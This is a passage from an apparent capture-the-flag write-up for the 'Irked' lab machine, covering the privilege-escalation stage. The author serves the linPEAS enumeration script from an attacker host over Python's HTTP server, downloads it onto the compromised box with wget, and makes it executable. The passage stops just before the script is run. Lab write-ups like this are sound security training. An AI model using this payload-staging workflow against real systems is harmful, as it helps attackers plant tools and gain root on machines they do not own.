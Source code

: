### Privilege Escalation

Now that we have a low privileged shell, I am going to look for ways to escalate my privileges to root. Good thing to always run when you get a low privileged shell is to run `linPEAS` or `winPEAS` depending on what operating system you are on. For me, I am on a Unix based system so I will be running `linPEAS`. If you do not already have it, simply copy paste [this](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) into a file (using a text editor like vim, nano, etc.) on **your** host and name it `linpeas.sh`. After that, host a simple Python HTTP server by running this command (make sure you are running this command within the directory that has your `linpeas.sh` file in it:

```
python -m SimpleHTTPServer 80
```

Hosting a Python Simple HTTP server will let me grab the file from my host and get it onto the low privileged shell. To download `linpeas.sh` off of my host from the low privileged shell, I need to use some sort of command to download the file. Typically I would use `curl` which is used to transfer data from or to a server using protocols like HTTP, FTP, IMAP, you name it. This box however doesn't have `curl`. Thankfully, there is another tool which is `wget`.  `Wget` is a utility for non-interactive download of files from the Web. So I can use `Wget` to go and download the file from my host and put it onto this box. I'm going to go ahead and do that.

```
wget http://10.10.14.36/linpeas.sh
```

```
ircd@irked:~/Unreal3.2$ wget http://10.10.14.36/linpeas.sh
wget http://10.10.14.36/linpeas.sh
--2021-06-07 19:09:37--  http://10.10.14.36/linpeas.sh
Connecting to 10.10.14.36:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 341863 (334K) [text/x-sh]
Saving to: ‘linpeas.sh’

     0K .......... .......... .......... .......... .......... 14%  324K 1s
    50K .......... .......... .......... .......... .......... 29%  654K 1s
   100K .......... .......... .......... .......... .......... 44% 4.35M 0s
   150K .......... .......... .......... .......... .......... 59%  758K 0s
   200K .......... .......... .......... .......... .......... 74% 3.90M 0s
   250K .......... .......... .......... .......... .......... 89% 2.66M 0s
   300K .......... .......... .......... ...                  100% 2.18M=0.4s

2021-06-07 19:09:37 (943 KB/s) - ‘linpeas.sh’ saved [341863/341863]

```

Now that it is saved onto the box with the low privileged shell, I have to make sure the file is executable by running `chmod +x`.

```
chmod +x linpeas.sh
```

Now run it.

